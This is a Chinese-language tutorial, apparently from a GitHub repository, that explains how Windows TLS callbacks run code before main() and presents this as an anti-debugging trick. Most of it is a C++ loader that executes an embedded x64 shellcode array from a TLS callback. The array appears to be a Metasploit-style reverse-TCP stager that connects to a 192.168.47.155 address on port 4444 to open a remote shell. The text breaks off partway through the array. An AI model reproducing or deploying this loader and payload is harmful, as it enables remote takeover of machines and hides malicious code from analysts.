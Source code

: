 ## TLS回调函数

TLS提供了一个回调函数，在线程初始化和终止时会被调用，这个回调函数会在程序入口点(即main函数)之前执行，调试器通常会在主函数入口点设置断点，因此TLS回调函数经常被用作反调试手段

TLS回调函数允许我们编写并执行任意代码。TLS有两种类型：静态TLS和动态TLS。静态TLS将TLS相关数据硬编码在PE（Portable Executable）文件中，而动态TLS在运行时分配和管理TLS数据。

静态TLS是将TLS相关数据硬编码在PE（Portable Executable，可执行文件）中。静态TLS存储在PE头的`IMAGE_DATA_DIRECTORY DataDirectory[9]`位置，可以通过该位置找到TLS目录的详细信息

通过在TLS回调函数中加载和执行shellcode，我们可以在程序的正常执行流之前运行这段代码。这种方法可以绕过调试器设置的断点，增加分析和调试的难度

TLS回调函数遵循特殊的编写约定，与DLL主函数类似。回调函数使用以下类型定义：

```cpp
typedef VOID
(NTAPI *PIMAGE_TLS_CALLBACK) (
 PVOID DllHandle, //DLL模块的句柄
 DWORD Reason, //调用原因。这个参数与DLL调用时的原因相同，例如：DLL_PROCESS_ATTACH（当进程加载DLL时）、DLL_THREAD_ATTACH（当线程创建时）等
 PVOID Reserved  //保留参数，通常用于区分DLL是显式加载还是隐式加载
 );
```



## 实现代码

这段代码的核心目的是在程序启动时，通过TLS回调函数来执行Shellcode，而不是在主函数中执行

```cpp
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") 

//用于存放shellcode的数组
unsigned char shellcode[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48"
"\x8b\x72\x50\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
"\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00"
"\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58"
"\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
"\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68"
"\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba"
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
```